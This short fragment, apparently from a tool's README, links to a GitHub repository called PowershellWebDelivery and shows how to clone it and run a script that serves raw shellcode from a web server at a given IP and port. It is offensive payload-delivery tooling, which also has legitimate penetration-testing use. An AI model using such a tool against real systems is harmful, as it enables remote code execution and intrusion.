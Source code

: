 https://github.com/maxDcb/PowershellWebDelivery

Git clone

```bash
git clone https://github.com/maxDcb/PowershellWebDelivery
cd PowershellWebDelivery
# In order, the IP hosting the web server, the web server's port, and the raw shellcode
python3 PowerShellWebDelivery.py --ip 10.10.15.250 --port 443 --raw

```